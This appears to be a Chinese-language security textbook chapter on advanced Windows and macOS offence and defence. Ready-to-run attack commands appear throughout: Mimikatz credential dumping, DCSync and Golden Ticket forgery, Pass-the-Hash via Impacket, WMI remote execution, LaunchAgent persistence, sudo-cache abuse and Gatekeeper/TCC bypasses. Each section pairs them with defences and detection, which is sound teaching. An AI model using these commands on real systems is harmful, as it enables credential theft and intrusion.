




## 五、高级技巧

本章聚焦Windows和macOS平台上最深层的安全技术——内存取证、凭证操作、横向移动、持久化、内核调试、固件安全等。这些技术处于攻防对抗的核心地带：红队利用它们突破层层防御，蓝队依靠它们发现高级威胁。掌握这些技巧需要扎实的操作系统底层知识（建议先完成本章理论基础部分），同时必须在合法授权的隔离环境中实践。

> ⚠️ **法律声明**：本节所有技术仅用于获得授权的安全测试与教育研究。未经授权对计算机系统进行内存取证、凭证提取、横向移动等操作属于违法行为，可能依据《网络安全法》《刑法》第285/286条追究刑事责任。

### 5.1 Windows高级技巧

#### 5.1.1 内存取证

内存取证（Memory Forensics）是从系统物理内存的快照中提取数字证据的技术。与磁盘取证不同，内存取证能捕获仅存在于RAM中的信息：加密密钥的明文、未写入磁盘的恶意代码、网络连接状态、注册表的运行时内容。在事件响应和恶意软件分析中，内存取证往往是解开谜题的最后一把钥匙。

**为什么内存取证如此重要**

现代恶意软件越来越倾向于"无文件"（Fileless）攻击——恶意代码只存在于内存中，不落盘、不写注册表，传统的磁盘取证和杀毒软件扫描无法发现。2017年的PowerShell Empire、后来的Cobalt Strike Beacon内存注入，都是典型的无文件攻击。内存取证是目前对抗此类威胁最有效的手段之一。

**WinPmem：物理内存转储**

WinPmem是一款开源的Windows物理内存获取工具，支持从Windows 7到Windows 11的各个版本，包括UEFI和Legacy BIOS启动模式。

```cmd
:: 以管理员权限运行，转储完整物理内存
winpmem_mini_x64.exe memory.raw

:: 指定输出格式为AFF4（更高效的压缩格式）
winpmem_mini_x64.exe -o memory.aff4

:: 只转储特定内存范围（用于大内存系统部分采集）
winpmem_mini_x64.exe --start 0x0 --length 0x10000000 memory_partial.raw
```

**WinPmem工作原理**：WinPmem加载一个内核驱动（pmem.sys）来直接读取物理内存页面，绕过操作系统的虚拟内存管理。它通过`\\.\pmem`设备暴露物理地址空间，然后将整个物理内存逐页读取并写入文件。由于直接操作物理地址，它能获取到包括内核空间在内的全部内存内容。

**内存获取的注意事项**：

| 因素 | 影响 | 应对策略 |
|------|------|----------|
| 内存加密（如BitLocker） | 只保护磁盘，不影响内存转储 | 内存获取不受BitLocker影响 |
| 内存加密（如AMD SME/Intel TME） | 硬件级内存加密会阻止读取明文 | 需要特殊的解密密钥获取技术 |
| 系统休眠文件 | hiberfil.sys包含压缩的内存快照 | 可作为内存获取的替代源 |
| 页面文件/交换文件 | pagefile.sys包含被换出的内存页 | 与内存转储互补分析 |
| 系统时间 | 获取过程中系统仍在运行 | 内存内容在获取瞬间存在轻微变化 |

**Volatility：内存分析框架**

Volatility是业界标准的内存取证分析框架，支持Windows、Linux、macOS三大平台的内存镜像分析。其插件化架构允许安全分析人员按需提取不同类型的内存信息。

```cmd
:: 第一步：识别内存镜像的操作系统类型和版本
volatility -f memory.raw imageinfo

:: 根据imageinfo结果指定profile进行后续分析
set PROFILE=Win7SP1x64

:: 列出所有运行中的进程（含隐藏进程检测）
volatility -f memory.raw --profile=%PROFILE% pslist
volatility -f memory.raw --profile=%PROFILE% psxview

:: 提取进程树，查看父子关系
volatility -f memory.raw --profile=%PROFILE% pstree

:: 列出所有网络连接
volatility -f memory.raw --profile=%PROFILE% netscan

:: 提取注册表信息
volatility -f memory.raw --profile=%PROFILE% hivelist
volatility -f memory.raw --profile=%PROFILE% hashdump

:: 扫描文件对象
volatility -f memory.raw --profile=%PROFILE% filescan
volatility -f memory.raw --profile=%PROFILE% dumpfiles -Q <offset> -D output/

:: 检测注入的代码
volatility -f memory.raw --profile=%PROFILE% malfind

:: 提取命令行历史
volatility -f memory.raw --profile=%PROFILE% cmdline
volatility -f memory.raw --profile=%PROFILE% cmdscan
volatility -f memory.raw --profile=%PROFILE% consoles
```

**Volatility 3（新一代）**：Volatility 3使用Python 3重写，改进了符号表管理，不再需要手动指定profile，而是自动从内存镜像中识别操作系统版本。

```cmd
:: Volatility 3语法
vol -f memory.raw windows.info
vol -f memory.raw windows.pslist
vol -f memory.raw windows.netscan
vol -f memory.raw windows.malfind
vol -f memory.raw windows.hashdump
```

**内存取证实战分析流程**：



**防御视角——如何对抗内存取证**：

- **内存加密**：启用AMD SME（Secure Memory Encryption）或Intel TME（Total Memory Encryption），在硬件层面加密RAM内容，使物理内存转储获取到的是密文
- **安全启动+Measured Boot**：确保系统启动链的完整性，防止攻击者在内核层面加载内存获取驱动
- **监控驱动加载**：通过Sysmon Event 6（驱动加载）和Event 7（映像加载）检测WinPmem等内存获取工具的驱动签名
- **BitLocker+TPM**：虽然不直接保护运行时内存，但可以防止攻击者通过休眠文件（hiberfil.sys）获取内存快照

#### 5.1.2 凭证提取

凭证提取是渗透测试和红队行动中最关键的环节之一。一旦获取到高权限凭证，攻击者可以在网络中自由移动。理解凭证提取的原理和防御，是蓝队检测高级威胁的基础。

**Windows凭证存储架构**

Windows在不同场景下使用不同的凭证存储机制：

| 存储位置 | 包含内容 | 访问权限 | 提取工具 |
|----------|----------|----------|----------|
| SAM数据库 | 本地用户NTLM哈希 | SYSTEM | reg save + secretsdump |
| LSASS进程内存 | 明文密码、NTLM哈希、Kerberos票据 | SYSTEM/调试权限 | Mimikatz、ProcDump |
| 凭据管理器 | 保存的Web/域凭据 | 用户权限或SYSTEM | vaultcmd、Mimikatz |
| DPAPI | 浏览器密码、Wi-Fi密码等 | 对应用户权限 | Mimikatz dpapi |
| 组策略偏好 | 域推送的本地管理员密码 | 域用户 | gpp-decrypt |
| AD数据库（NTDS.dit） | 所有域用户哈希 | 域控制器SYSTEM | secretsdump |

**Mimikatz高级用法**

Mimikatz是由Benjamin Delpy开发的Windows凭证提取工具，是安全领域的"瑞士军刀"。它利用Windows安全子系统（SSP）的设计缺陷，从LSASS进程中提取各种凭证材料。

```cmd
:: 以管理员权限运行，启用调试权限
mimikatz # privilege::debug

:: 提取LSASS中的所有凭据（明文密码、NTLM哈希、Kerberos票据）
mimikatz # sekurlsa::logonpasswords

:: 提取特定类型的凭据
mimikatz # sekurlsa::wdigest      :: WDigest明文密码（Win8之前默认启用）
mimikatz # sekurlsa::msv          :: NTLM哈希
mimikatz # sekurlsa::kerberos     :: Kerberos票据
mimikatz # sekurlsa::tspkg        :: 凭据管理器中的凭据

:: 导出LSASS进程的完整凭据（可离线分析）
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonpasswords
```

**DCSync攻击**：DCSync是一种不需要在域控制器上执行代码就能获取域内任意用户哈希的攻击技术。它模拟域控制器之间的复制协议（DRSUAPI），向目标DC请求指定用户的凭证数据。这是目前最危险的AD攻击之一，因为它完全在正常的AD复制流量中进行，很难被传统安全设备检测。

```cmd
:: 提取krbtgt账户哈希（制作Golden Ticket的前提）
mimikatz # lsadump::dcsync /domain:target.local /user:krbtgt

:: 提取域管理员哈希
mimikatz # lsadump::dcsync /domain:target.local /user:Administrator

:: 提取所有域用户哈希（输出量大，谨慎使用）
mimikatz # lsadump::dcsync /domain:target.local /all
```

**Kerberos票据攻击**：

```cmd
:: Golden Ticket - 使用krbtgt哈希伪造任意用户的TGT
:: 获取krbtgt哈希后，可创建有效期10年的票据，冒充任意域用户
mimikatz # kerberos::golden /user:Administrator /domain:target.local /sid:S-1-5-21-XXXXXXXXX-XXXXXXXXX-XXXXXXXXX /krbtgt:HASH /ptt

:: Silver Ticket - 使用服务账户哈希伪造特定服务的TGS
:: 只能访问特定服务（如CIFS文件共享、HTTP Web服务），更隐蔽
mimikatz # kerberos::golden /user:Administrator /domain:target.local /sid:S-1-5-21-... /target:fileserver.target.local /service:cifs /rc4:HASH /ptt

:: Kerberoasting - 请求服务票据并离线破解
:: 任何域用户都可以请求SPN关联的服务票据，然后离线暴力破解
mimikatz # kerberos::ask /target:target.local/sqlservice

:: AS-REP Roasting - 针对不需要预认证的账户
:: 此类账户的TGT响应可被离线破解
mimikatz # kerberos::ask /user:nopreauth_user /domain:target.local
```

**凭证提取的防御策略**：

| 防御措施 | 原理 | 配置方法 |
|----------|------|----------|
| 启用Credential Guard | 使用VBS在隔离的安全容器中保护LSASS | 组策略→计算机配置→管理模板→系统→Device Guard |
| 禁用WDigest明文缓存 | 防止LSASS存储明文密码 | 注册表`HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest`→`UseLogonCredential`设为0 |
| LAPS本地管理员密码 | 每台机器不同的随机本地管理员密码 | 部署Microsoft LAPS |
| 监控LSASS访问 | 检测异常的LSASS进程读取 | Sysmon Event 10 + EDR策略 |
| 限制DCSync权限 | 仅允许授权的DC进行复制 | 审计AD对象`Replicating Directory Changes`权限 |
| 加强Kerberos安全 | 长密码+定期轮换krbtgt | 每180天轮换krbtgt密码两次 |

#### 5.1.3 横向移动

横向移动（Lateral Movement）是攻击者在获取初始访问后，利用已获得的凭证在内网中从一台主机移动到另一台主机的过程。在域环境中，一次成功的横向移动可能意味着从普通工作站跳转到域控制器。

**Pass-the-Hash（PtH）**

Pass-the-Hash利用NTLM认证协议的设计缺陷：NTLM认证只需要密码的哈希值，而不需要明文密码。攻击者获取到目标账户的NTLM哈希后，可以直接使用该哈希进行认证，无需破解密码。

```cmd
:: 使用Mimikatz发起PtH攻击
:: 创建一个新进程，注入目标用户的NTLM哈希
mimikatz # sekurlsa::pth /user:Administrator /domain:target.local /ntlm:HASH /run:cmd.exe

:: 使用Impacket工具套件（Python，跨平台）
:: PsExec远程执行
impacket-psexec -hashes :NTHASH Administrator@target

:: WMI远程执行（更隐蔽，不创建服务）
impacket-wmiexec -hashes :NTHASH Administrator@target

:: SMB远程执行（通过SMB共享执行命令）
impacket-smbexec -hashes :NTHASH Administrator@target

:: At计划任务远程执行
impacket-atexec -hashes :NTHASH Administrator@target "whoami"
```

**Pass-the-Hash的防御**：

- **限制NTLM使用**：在域环境中逐步禁用NTLM，强制使用Kerberos。通过组策略`网络安全: LAN Manager 身份验证级别`设为`仅发送 NTLMv2 响应\拒绝 LM & NTLM`
- **特权账户保护**：域管理员等特权账户不应直接登录普通工作站。使用"特权访问工作站"（PAW）模式
- **网络分段**：限制SMB（445端口）的横向通信，只允许必要的服务器间通信
- **LSA保护**：启用RunAsPPL（Protected Process Light），阻止对LSASS的非授权访问

**Overpass-the-Hash（Pass-the-Key）**

Overpass-the-Hash是PtH的Kerberos版本。攻击者使用NTLM哈希或Kerberos密钥来请求Kerberos TGT票据，从而在网络中以Kerberos认证的方式进行横向移动。这种技术比PtH更隐蔽，因为Kerberos流量是域环境中的正常流量。

```cmd
:: 使用NTLM哈希获取Kerberos TGT
mimikatz # sekurlsa::pth /user:Administrator /domain:target.local /ntlm:HASH /run:cmd.exe

:: 在新创建的cmd窗口中，使用klist查看已获取的Kerberos票据
:: 此时该进程已持有目标用户的TGT，可以访问Kerberos保护的资源
```

**WMI横向移动**

Windows Management Instrumentation（WMI）是Windows内置的系统管理框架。攻击者利用WMI进行远程执行时，不需要创建服务或计划任务，通信走DCOM或WinRM协议，比PsExec更加隐蔽。

```powershell
# WMI远程执行（需要目标机器的管理员权限）
Invoke-WmiMethod -ComputerName target -Class Win32_Process -Name Create -ArgumentList "powershell.exe -enc <base64_encoded_command>"

# 使用wmic命令行
wmic /node:target process call create "cmd.exe /c whoami > C:\temp\out.txt"

# WinRM远程执行（需要WinRM服务开启）
Enter-PSSession -ComputerName target -Credential (Get-Credential)
Invoke-Command -ComputerName target -ScriptBlock { whoami }
```

**SMB横向移动工具对比**：

| 工具 | 协议 | 原理 | 隐蔽性 | 检测方法 |
|------|------|------|--------|----------|
| PsExec | SMB+RPC | 创建PSEXESVC服务 | 低：会创建服务和日志 | Sysmon Event 1/70 |
| WMIExec | DCOM | 通过WMI创建进程 | 中：无服务创建 | Sysmon Event 1 + 网络连接 |
| AtExec | SMB+RPC | 创建计划任务 | 中：有计划任务记录 | Sysmon Event 1 + 事件日志 |
| SMBExec | SMB | 利用命名管道 | 高：无明显痕迹 | 网络流量分析 |
| Evil-WinRM | WinRM | PowerShell远程管理 | 高：正常管理流量 | WinRM日志 |
| DCOMExec | DCOM | 利用DCOM对象 | 高：非常规方法 | Sysmon Event 1 |

#### 5.1.4 内核调试与驱动分析

内核调试是深入理解Windows安全机制、分析内核级Rootkit、挖掘驱动漏洞的必备技能。与用户态调试不同，内核调试需要特殊的配置和工具链。

**启用内核调试**：

```cmd
:: 方法1：通过bcdedit启用内核调试
bcdedit /debug on
bcdedit /dbgsettings serial debugport:1 baudrate:115200

:: 方法2：网络调试（更方便）
bcdedit /dbgsettings net hostip:<调试机IP> port:50000
:: 系统会生成一个密钥，记录下来用于调试机连接

:: 方法3：本地调试（WinDbg Preview直接附加）
:: 适用于分析dump文件，无需重启
```

**WinDbg核心调试命令**：

```cmd
:: 加载符号服务器
.sympath srv*https://msdl.microsoft.com/download/symbols
.reload

:: 查看内核模块
lm           :: 列出所有加载的内核模块
lm kv        :: 详细模式，含版本信息
!drvobj \Driver\Name 7   :: 查看驱动对象详情

:: 进程和线程
!process 0 0   :: 列出所有进程
!thread        :: 当前线程信息
!token         :: 安全令牌

:: 内存分析
!address       :: 虚拟地址空间布局
!pte <address>  :: 页表项
db/dd/dq <address> :: 读取内存

:: 对象和句柄
!object \      :: 查看对象目录
!handle        :: 句柄表
```

**驱动分析实战**：分析一个未知驱动的安全性时，需要关注以下方面：



**内核级Rootkit检测**：Rootkit通过修改内核数据结构（如DKOM——直接内核对象操作）来隐藏自身。检测方法包括：

- **交叉视图比较**：对比不同API获取的信息（如`EnumProcesses`与内核`EPROCESS`链表），不一致处即可能被Rootkit隐藏
- **签名验证**：验证内核模块的数字签名，未签名的模块高度可疑
- **内核完整性检查**：对比关键内核数据结构的当前值与预期值（如SSDT、IDT、GDT）

#### 5.1.5 固件安全

固件位于操作系统之下，是安全链条中最底层的软件环节。攻击者如果能在固件层面植入恶意代码，可以实现操作系统重装也无法清除的持久化。

**UEFI安全分析**：

```bash
# 使用UEFITool解析UEFI固件镜像
# UEFITool可以在Windows/Linux/macOS上运行
# 打开.rom/.bin/.cap固件文件，查看所有UEFI模块

# 使用chipsec进行固件安全审计
# chipsec是Intel开源的固件安全评估框架
chipsec_main.py -m common.spi.lock       # 检查SPI Flash锁定
chipsec_main.py -m common.bios_kbrstbuf   # 检查BIOS键盘缓冲区清除
chipsec_main.py -m common.uefi.access     # 检查UEFI变量访问控制
chipsec_main.py -m common.secureboot      # 检查Secure Boot配置
chipsec_main.py -m common.smm             # 检查SMM安全
```

**常见固件攻击向量**：

| 攻击方式 | 目标 | 持久性 | 难度 | 检测难度 |
|----------|------|--------|------|----------|
| UEFI Rootkit | SPI Flash中的UEFI固件 | 重装不消除 | 高 | 极高 |
| SMM Rootkit | 系统管理模式代码 | OS不可见 | 极高 | 极高 |
| Option ROM | 网卡/显卡等外设固件 | 替换硬件才消除 | 中 | 高 |
| BMC/IPMI | 服务器管理控制器 | 独立于OS | 中 | 高 |
| ACPI表注入 | 高级配置与电源接口 | 需要重新刷写 | 中 | 中 |

**固件安全防御**：

- **启用Secure Boot**：确保只有经过签名的UEFI模块可以加载
- **SPI Flash写保护**：通过芯片组配置锁定SPI Flash，防止未授权写入
- **BIOS密码**：设置BIOS/UEFI管理密码，防止物理接触攻击者修改启动顺序
- **固件完整性监控**：使用chipsec或商业固件安全平台定期审计固件完整性
- **更新固件**：及时应用厂商发布的固件安全更新

### 5.2 macOS高级技巧

#### 5.2.1 持久化技术

macOS的持久化机制与Windows截然不同。Apple设计了一套基于Launch Daemon/Agent的集中式服务管理框架，替代了传统的init.d和cron。理解这套机制是进行macOS安全测试的基础。

**macOS持久化机制全景**：

| 持久化类型 | 路径 | 运行身份 | 触发时机 | 权限要求 |
|-----------|------|----------|----------|----------|
| Launch Daemon | `/Library/LaunchDaemons/` | root | 系统启动 | root |
| Launch Agent（系统级） | `/Library/LaunchAgents/` | 当前用户 | 用户登录 | root |
| Launch Agent（用户级） | `~/Library/LaunchAgents/` | 当前用户 | 用户登录 | 用户 |
| Login Items | 系统偏好设置 | 当前用户 | 用户登录 | 用户 |
| Login Hooks | `/etc/authorization` | root | 用户登录 | root |
| Cron | `/var/at/tabs/` 或 crontab | 取决于配置 | 按调度 | 用户/root |
| Authorization Plugins | `/Library/Security/SecurityAgentPlugins/` | root | 认证时 | root |
| Kernel Extensions | `/Library/Extensions/` | 内核态 | 加载时 | root + Apple签名 |
| System Extensions | App Sandbox内 | 用户态 | 手动/自动 | 用户批准 |

**Login Items**：最简单的持久化方式，通过AppleScript或系统API添加。隐蔽性较低，因为用户可以在"系统设置→登录项"中看到。

```bash
# 添加登录项（用户级，无需root）
osascript -e 'tell application "System Events" to make login item at end with properties {path:"/Applications/MyApp.app", hidden:true}'

# 列出当前登录项
osascript -e 'tell application "System Events" to get the name of every login item'

# 删除登录项
osascript -e 'tell application "System Events" to delete login item "MyApp"'
```

**Launch Agents/Daemons**：macOS最常用的持久化方式。通过plist文件定义服务配置，`launchctl`工具管理加载和卸载。

```bash
# 创建用户级Launch Agent（用户登录时自动执行）
cat > ~/Library/LaunchAgents/com.example.update.plist << 'EOF'
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <key>Label</key>
    <string>com.example.update</string>
    <key>ProgramArguments</key>
    <array>
        <string>/usr/local/bin/update-checker.sh</string>
    </array>
    <key>RunAtLoad</key>
    <true/>
    <key>KeepAlive</key>
    <false/>
    <key>StartInterval</key>
    <integer>3600</integer>
    <key>StandardOutPath</key>
    <string>/tmp/update-checker.log</string>
    <key>StandardErrorPath</key>
    <string>/tmp/update-checker.err</string>
</dict>
</plist>
EOF

# 加载Agent
launchctl load ~/Library/LaunchAgents/com.example.update.plist

# 查看已加载的服务
launchctl list | grep example

# 查看服务详细信息
launchctl print gui/$(id -u)/com.example.update

# 卸载Agent
launchctl unload ~/Library/LaunchAgents/com.example.update.plist

# 系统级Launch Daemon（需要root，开机即运行）
sudo tee /Library/LaunchDaemons/com.example.daemon.plist << 'EOF'
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <key>Label</key>
    <string>com.example.daemon</string>
    <key>ProgramArguments</key>
    <array>
        <string>/usr/local/bin/system-service</string>
        <string>--daemon</string>
    </array>
    <key>RunAtLoad</key>
    <true/>
    <key>KeepAlive</key>
    <true/>
</dict>
</plist>
EOF

sudo launchctl load /Library/LaunchDaemons/com.example.daemon.plist
```

**Launch Agent/Daemon关键配置项**：

| 键名 | 类型 | 说明 | 安全含义 |
|------|------|------|----------|
| `RunAtLoad` | Boolean | 加载时是否立即执行 | `true`意味着登录/开机即触发 |
| `KeepAlive` | Boolean/Dict | 进程退出后是否自动重启 | `true`意味着杀死后立即复活 |
| `StartInterval` | Integer | 定时执行间隔（秒） | 周期性回调/C2心跳 |
| `StartCalendarInterval` | Dict | 定时执行（类cron） | 指定时间触发 |
| `WatchPaths` | Array | 文件变化触发 | 监控特定文件 |
| `WorkingDirectory` | String | 工作目录 | 可能暴露项目路径 |
| `EnvironmentVariables` | Dict | 环境变量 | 可注入PATH劫持 |

**持久化检测方法**：

```bash
# 检查所有Launch Agents/Daemons
ls -la /Library/LaunchDaemons/ /Library/LaunchAgents/ ~/Library/LaunchAgents/

# 使用KnockKnock扫描所有持久化项（Objective-See出品）
# KnockKnock会列出所有自动启动的程序并查询VirusTotal
# 下载地址：https://objective-see.org/products/knockknock.html

# 使用EtreCheck生成系统诊断报告（含持久化项）
# brew install --cask etrecheckpro

# 手动检查可疑项
# 1. 检查plist的ProgramArguments指向的二进制文件
# 2. 验证二进制文件的代码签名
codesign -dv --verbose=4 /path/to/binary
# 3. 检查二进制文件的哈希并在VirusTotal查询
shasum -a 256 /path/to/binary
# 4. 检查是否有隐藏的Launch Agent（文件名以.开头）
ls -la ~/Library/LaunchAgents/ | grep '^\.'
```

#### 5.2.2 权限提升

macOS的权限模型比Windows更严格，但仍存在多种提权路径。Apple的安全机制（SIP、AMFI）大幅提高了提权难度，但在特定条件下仍可被绕过。

**sudo缓存利用**：

macOS的sudo默认有5分钟的密码缓存窗口。如果管理员用户在此窗口内执行了sudo命令，攻击者可以在不需要密码的情况下利用该缓存。

```bash
# 检查sudo超时设置
sudo -V | grep "Authentication timestamp timeout"

# 查看sudo缓存文件
ls -la /var/db/sudo/

# 非交互式利用sudo缓存（无需输入密码）
sudo -n command

# 检查sudo缓存是否有效
sudo -n true 2>/dev/null && echo "缓存有效" || echo "缓存已过期"
```

**Authorization Services提权**：

macOS的Authorization Services框架允许受信任的应用以管理员权限执行操作。攻击者可以利用已获得管理员授权的应用来提权。

```bash
# 通过osascript请求管理员权限执行命令
osascript -e 'do shell script "whoami && id" with administrator privileges'

# 这会弹出系统密码输入框，但如果是利用已授权的缓存，则不需要密码
# 可用于在已获得用户信任的应用中执行特权操作
```

**Sudo漏洞利用（CVE案例）**：

历史上多次出现sudo自身的漏洞，最著名的是2021年的CVE-2021-3156（Baron Samedit），影响sudo 1.8.2到1.8.31p2以及1.9.0到1.9.5p1的所有版本。

```bash
# 检查sudo版本是否受影响
sudo --version

# CVE-2021-3156：堆溢出漏洞
# 利用sudoedit -s命令的参数处理缺陷
# 攻击者可以通过精心构造的参数触发堆溢出，获得root权限
# 修复：升级sudo到1.9.5p2或更高版本

# 检查系统是否已修补
pkgutil --pkg-info com.apple.pkg.sudo
```

**macOS提权防御**：

- **启用SIP**：System Integrity Protection保护系统文件和关键目录，即使root也无法修改
- **及时更新**：Apple在安全更新中修复了大量提权漏洞
- **限制sudo权限**：只给予必要用户sudo权限，使用`sudoers`文件精细控制
- **启用Secure Keyboard Entry**：防止键盘记录器捕获密码输入

#### 5.2.3 绕过安全机制

macOS的安全机制层层叠加，从硬件信任根到应用沙盒形成完整的防御链条。红队需要理解每一层的机制和弱点，蓝队需要知道如何检测这些绕过行为。

**绕过Gatekeeper**

Gatekeeper是macOS的应用程序执行控制机制，它验证下载应用的代码签名和公证状态。绕过Gatekeeper是执行未签名代码的第一步。

```bash
# 方法1：移除隔离属性（Quarantine）
# macOS对通过浏览器下载的文件设置com.apple.quarantine扩展属性
# Gatekeeper在首次运行时检查此属性
xattr -d com.apple.quarantine /path/to/app.app
xattr -l /path/to/app.app    # 查看所有扩展属性

# 方法2：右键打开（用户交互方式）
# 按住Control键点击应用→选择"打开"→确认"打开"
# 这会绕过Gatekeeper的首次运行检查（但需要用户交互）

# 方法3：利用已签名的加载器
# 使用合法签名的应用作为加载器，加载未签名的恶意代码
codesign -dvvv /path/to/signed-app.app    # 验证签名详情
codesign --verify --verbose /path/to/app.app    # 验证签名完整性

# 方法4：利用安装包
# 通过.pkg安装包绕过Gatekeeper（安装包有不同的检查路径）
# 攻击者可以制作包含恶意脚本的postinstall的pkg文件
pkgutil --expand package.pkg /tmp/pkg_expanded
# 检查Scripts目录下的postinstall脚本
```

**Gatekeeper的工作流程**：



**绕过TCC（Transparency, Consent, and Control）**

TCC是macOS的隐私保护框架，控制应用对摄像头、麦克风、文件系统、位置服务等敏感资源的访问。绕过TCC是获取用户隐私数据的关键步骤。

```bash
# TCC数据库位置
ls -la ~/Library/Application\ Support/com.apple.TCC/TCC.db

# 利用已授权应用间接访问
# 如果某个应用已被TCC授权访问特定资源，攻击者可以通过该应用间接获取数据

# 方法1：通过AppleScript控制已授权应用
osascript -e 'tell application "Finder" to make new folder at desktop'
# Finder默认拥有桌面和文档文件夹的访问权限

# 方法2：利用Full Disk Access（FDA）
# 需要用户在系统设置中手动授予
# 一旦授予，应用可以访问所有文件，包括其他应用的TCC数据库

# 方法3：利用TCC数据库的保护绕过（历史漏洞）
# CVE-2020-9934：通过环境变量注入绕过TCC
# CVE-2021-30713：通过已授权应用的子进程继承绕过
# CVE-2021-30810：通过系统偏好设置的helper应用绕过

# 检查TCC授权状态
sqlite3 ~/Library/Application\ Support/com.apple.TCC/TCC.db \
  "SELECT client, auth_value, auth_reason FROM access WHERE service='kTCCServiceSystemPolicyAllFiles';"
```

**TCC绕过的防御**：

- **监控TCC数据库变更**：使用Endpoint Security Framework监控TCC.db的读写
- **限制Full Disk Access**：只授予真正需要的应用FDA权限
